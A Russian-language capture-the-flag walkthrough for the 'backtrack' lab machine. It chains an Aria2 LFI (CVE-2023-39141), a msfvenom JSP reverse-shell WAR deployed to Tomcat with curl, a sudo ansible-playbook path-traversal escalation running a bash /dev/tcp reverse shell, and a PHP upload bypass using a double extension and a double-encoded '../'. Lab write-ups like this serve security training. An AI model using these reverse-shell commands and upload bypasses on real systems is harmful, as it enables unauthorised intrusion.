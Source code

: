для доступа к сайту добавим target ip и domain в /etc/hosts


8888 port - Aria2 WebUI
8080 port - tomcat

CVE-2023-39141 позволяет получить LFI на Aria2

![](../attachment/Pasted%20image%2020250226173306.png)

Получаем доступ к пользователю tomcat с ролью manager-script. Обычным способом залить шелл не получится поэтому используем curl
1. создаем шелл  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.21.61.35 LPORT=6655 -f war > shell.war
2.  curl -T "shell.war" -u $user:$pass "http://10.10.75.15:8080/manager/text/deploy?path=/app&update=true

![](../attachment/Pasted%20image%2020250226173628.png)
Забираем первый флаг 
![](../attachment/Pasted%20image%2020250226174326.png)

tomcat может использовать задачи для ansible-playbook от пользователя wilbur без пароля
1. создадим правило и загрузим его на машину через wget в папку /tmp (тк нет прав на запись в папку с задачами)
```
- hosts: localhost
  tasks:
    - name: RShell
      command: bash /tmp/test.sh

```
2.  создадим скрипт, который будет выполняться echo '/bin/bash -i >& /dev/tcp/10.21.61.35/5566 0>&1' > /tmp/test.sh
3.  sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/unl.yml
Получив доступ в домашней директории находим пароль для wilbur и информации о наличие сайта, а также доступ к нему
![](../attachment/Pasted%20image%2020250226174206.png)

![](../attachment/Pasted%20image%2020250226174437.png)

Для доступа к сайту сделать ssh туннель  ssh  -L 6653:127.0.0.1:80 wilbur@backtrack.thm

На сайте есть возможность загружать файлы php с помощью двойного расширения .png.php

создадим shell.png.php в который запишем шелл PHP PentestMonkey (revshells)

При обычный загрузке он попадает в папку uploads и не возвращает шелл. Для того чтобы выбраться из папки обычный LFI не подошел 
![](../attachment/Pasted%20image%2020250226174954.png)
Попробуем добавить в имя файла  двойное кодирование для ../  %252e%252e%252fshell.png.php 

Загружаем на сайт и переходим http://127.0.0.1:6653/shell.png.php. Забираем второй флаг
![](../attachment/Pasted%20image%2020250226175217.png)